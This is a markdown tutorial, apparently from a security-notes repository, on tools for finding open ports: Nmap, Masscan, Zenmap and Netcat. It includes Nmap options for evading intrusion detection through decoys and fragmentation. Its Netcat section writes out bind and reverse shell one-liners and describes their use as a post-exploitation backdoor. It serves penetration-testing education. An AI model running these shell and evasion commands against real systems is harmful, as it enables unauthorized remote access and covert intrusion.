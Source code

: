 ```yaml
---
title: Essential Tools for Identifying Open Ports in Cybersecurity
description: Explore key tools like Nmap, Masscan, Zenmap, and Netcat to effectively
  identify open ports for security assessments.
keywords:
- Nmap
- Masscan
- Zenmap
- Netcat
- open ports
- network scanning
- security tools
- penetration testing
- service detection
- port scanning
---
```


# Tools for Identifying Open Ports

## Nmap

Nmap, the Network Mapper, is a powerful open-source tool for network exploration and security auditing. It is widely used for discovering hosts and services on a computer network by sending packets and analyzing the responses. 

- **Command-Line Utilization**

  Nmap's command-line interface provides extensive functionality. The basic syntax for Nmap is:

  ```
  nmap [Scan Type] [Options] {target specification}
  ```

  - **Syntax and Options Mastery**: Understanding Nmap's basic command-line options is crucial. Common options include `-sS` for stealth SYN scanning, `-sT` for TCP connect scan, `-p` for specifying port numbers, and `-A` for OS and version detection.

  - **Advanced Scanning Techniques**: Nmap supports various sophisticated scanning techniques:
    - **SYN Stealth Scans (`-sS`)**: Sends SYN packets to determine if ports are open, closed, or filtered without completing the TCP handshake.
    - **Null, FIN, and Xmas scans (`-sN`, `-sF`, `-sX`)**: Exploit responses to incorrectly crafted TCP packets to ascertain open ports.
    - **TCP Connect and ACK Scans (`-sT`, `-sA`)**: Different strategies to interact fully with ports or check if they are simply blocking SYN requests.

- **Service Detection**

  Nmap can identify more than just open ports; it can detect the services running on those ports and their versions.

  - **Performing Version Detection**: Use the `-sV` flag to initiate service version detection. This helps identify software versions, which can be crucial for vulnerability assessments.

  - **Using NSE (Nmap Scripting Engine)**: NSE scripts can probe deeper. Commands like `nmap --script vuln [target]` can find common vulnerabilities using an available script library.

- **Evading Detection**

  Nmap has built-in features to avoid detection by firewalls and intrusion detection systems.

  - **Timing and Fragmentation Techniques**: Adjust scan speed using `-T` options ranging from 0 (paranoid) to 5 (insane). Use `-f` or `--mtu` to fragment packets.
  
  - **Randomizing Target IPs and Using Spoofed Source IPs**: Options like `-D RND:10` use decoy IPs, making it difficult for targets to pinpoint the scan origin.

  - **Bypassing Firewall and IDS**: Techniques like ACK scanning (`-sA`) determine if a system is statefully filtering packets.

- **Output Formatting**

  Different output formats make it easier to analyze Nmap results.

  - **XML and Grepable Outputs**: Use `-oX` for XML and `-oG` for grepable outputs to facilitate data extraction with other tools or custom scripts.

  - **Leveraging the Output for Automation Scripts**: Combine Nmap scripts with command-line utilities like `awk`, `sed`, or `grep` to automate further analysis and reporting.

## Masscan

Masscan is designed for high-speed port scanning. Its most remarkable feature is its ability to scan the entire Internet in under six minutes.

- **Usage and Options**

  Masscan's syntax is similar to Nmap but with a focus on speed and efficiency:

  ```
  masscan -p 80,443 [target IP range] --rate [rate]
  ```

  - **Installation and Configuration**: Masscan requires raw packet privileges; ensure it's configured correctly in OS settings for optimal use. 

  - **Command Syntax and Core Options**: Core parameters include specifying ports with `-p` and with `--rate` to control the number of packets sent per second, optimizing network and system resources.

- **Parallel Scanning**

  Masscan achieves speed through parallelization.

  - **Leveraging Masscan for High-Speed Scans**: Fine-tune the packet rate to prevent overloading the network while maximizing scan speed. Masscan can distribute work across threads, using `--rate` to balance performance with reliability.

  - **Fine-Tuning Performance Parameters**: Adjust batch sizes and delay between packets to optimize the scanning process for network conditions.

- **Handling Large Outputs**

  Masscan can generate substantial data sets that require efficient handling.

  - **Parsing and Filtering Techniques**: Utilize output redirection to save results. Pipe outputs through `grep` or convert them using scripts tailored for CSV or JSON formats.

  - **Exporting Results for Further Analysis**: Export Masscan output to formats that integrate with other analysis tools, using `--output-format` options.

## Zenmap

Zenmap is the official Nmap Security Scanner GUI. It simplifies Nmap's advanced capabilities for users preferring graphical interfaces.

- **Interface Navigation**

  Zenmap's GUI offers simplified workflows for new users and power users.

  - **Familiarization with Default Scan Profiles**: Pre-configured profiles allow users to rapidly deploy typical scan types like quick scan, quick scan plus, and intense scan.

  - **Configuration of Custom Scan Types**: Users can craft specific scans by adding Nmap commands in Zenmap's interface, offering flexibility in tailoring probe methods.

- **Visualization of Results**

  Zenmap can visualize complex scan results, turning them into straightforward maps.

  - **Understanding and Interpreting Topological Maps**: Visual aids in Zenmap provide intuitive understanding of network structures and potential vulnerabilities.

  - **Exporting Visual Data for Reporting**: Zenmap supports exportation of scan results and visualizations to formats like text or XML, aiding in report generation.

- **Utilization in Reconnaissance**

  Zenmap facilitates reconnaissance by making sense of extensive scan data.

  - **Analyzing Detected Services and Open Ports**: Zenmap’s interface helps sort services and identify potential network entry points effectively.

  - **Contrast with Command-Line Nmap Usage**: While the GUI provides usability advantages, it may lack some advanced command-line configurations.

## Netcat

Netcat, popularly termed the "Swiss army knife" for TCP/IP, is a versatile tool for network analysis.

- **Basic Functionality**

  At its core, Netcat operates as both a client and a server.

  - **Establishing and Listening Modes**: Netcat can connect to remote ports (`nc [hostname] [port]`) or listen for connections (`nc -l [port]`).

  - **Port Scanning Methodologies**: Netcat can perform rudimentary scans by sending sequential connection requests to a range of ports.

- **Advanced Functionalities**

  Netcat's adaptability enhances its usage far beyond basic connections.

  - **Transferring Files Through Open Ports**: Leverage Netcat to transmit files (`nc -l -p [port] > filename` and for receiving `nc [host] [port] < filename`).

  - **Leveraging as a Backdoor for Post-Exploitation**: Establish persistent connections with reverse TCP shells to maintain access.

- **Networking and Scripting**

  Netcat's scripting capacity extends its utility in flexible network strategies.

  - **Utilizing Netcat for Banner Grabbing**: Manually send malformed packets or simply connect to certain ports to extract service banners.

  - **Creating Reverse and Bind Shells**: Use Netcat to establish bind shells (`nc -lp [port] -e /bin/sh`) or reverse shells (`nc [host] [port] -e /bin/sh`) to facilitate remote command execution.

Each tool detailed above provides unique capabilities and strategies, making them essential components in any offensive security toolkit, particularly for tasks focused on identifying open ports and mapping network structures for potential exploitation.